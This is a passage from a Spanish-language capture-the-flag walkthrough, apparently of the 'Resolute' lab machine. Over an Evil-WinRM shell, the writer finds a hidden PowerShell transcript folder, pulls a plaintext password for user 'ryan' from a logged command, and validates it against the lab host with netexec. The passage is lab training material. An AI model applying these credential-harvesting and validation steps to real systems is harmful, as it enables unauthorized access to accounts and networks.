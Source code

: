 No encontramos nada en el reporte de `winpeas`

Detectamos un directorio oculto llamado `PSTranscripts` en la raíz del sistema.
```console
*Evil-WinRM* PS C:\> dir -force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--         9/7/2024  11:26 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-         9/7/2024  10:14 AM      402653184 pagefile.sys


```

Encontramos una archivo extraño.
```console
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

```

Leyendo el archivo encontramos esta línea.
```console
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

Una credencial supuestamente para `ryan` `Serv3r4Admin4cc123!`

Vamos a comprobar esta credencial con `netexec`
Por alguna razón nos reporta `Pwn3d!` pero sabemos que este usuario no pertenece al grupo de administradores del dominio.
```console
$ nxc smb 10.129.201.75 -u ryan -p 'Serv3r4Admin4cc123!'
SMB         10.129.201.75   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.201.75   445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```

